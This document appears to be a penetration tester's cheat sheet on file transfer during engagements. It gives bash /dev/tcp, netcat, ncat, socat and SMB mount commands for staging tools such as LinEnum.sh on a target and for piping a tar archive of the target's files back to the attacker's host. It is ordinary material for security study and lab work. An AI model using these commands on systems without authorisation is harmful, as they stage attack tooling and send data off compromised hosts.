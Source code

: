 # Linux File Transfers


## Bash 
Check `mount` if /`dev/shm/` has `no exec`, this is just an example
```bash
# Use nc to serve the file
nc -lvnp 80 < LinEnum.sh
# Target machine
mount | grep shm
bash -c "cat < /dev/tcp/$IP/$PORT > /dev/shm/LinEnum.sh"
```
[Ippsec Reddish Video](https://www.youtube.com/watch?v=Yp4oxoQIBAM)

## Netcat
[[Netcat-Cheatsheet]]
```powershell
# Listener on Windows system
nc -lvnp $PORT > tranfered.exe
# Push wget.exe onto windows system
nc -nv $IP $PORT < /usr/share/windows-resources/binaries/wget.exe
```

## Ncat

Target machine
```bash
tar cf - . | ncat $IP $PORT
```
Attack machine
```bash
ncat -nlvp $PORT | tar xf -
```

## Socat
Use [[Socat-Cheatsheet]], Host with:
```bash
sudo socat TCP4-LISTEN:$PORT,fork file:$filename
```
Transfer with
```powershell
socat TCP4:$IP:$PORT file:$filename,create
```

## SMB Cif-Utils
```shell
sudo mount -t cifs -o 'user=$username,password=$password' //$IP/share /mnt/sharename
```

[Kali Cif-Utils]
